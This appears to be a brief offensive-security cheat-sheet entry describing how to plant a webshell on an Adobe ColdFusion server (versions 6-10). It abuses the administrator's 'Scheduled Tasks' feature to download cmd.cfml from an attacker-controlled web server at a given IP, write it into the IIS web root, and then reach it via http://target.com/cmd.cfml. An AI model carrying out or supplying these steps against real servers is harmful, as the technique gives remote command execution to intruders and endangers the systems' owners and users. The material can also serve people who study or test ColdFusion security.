 1. Access "Debugging and Logging">"Scheduled Tasks". (Coldfusion 6-10)
2. In URL, put the address of your web server hosting the webshell: http://172.20.1.27:8080/cmd.cfml
3. In "File" field: C:\Inetpub\wwwroot\cmd.cfml
4. Execute the task.

Access http://target.com/cmd.cfml
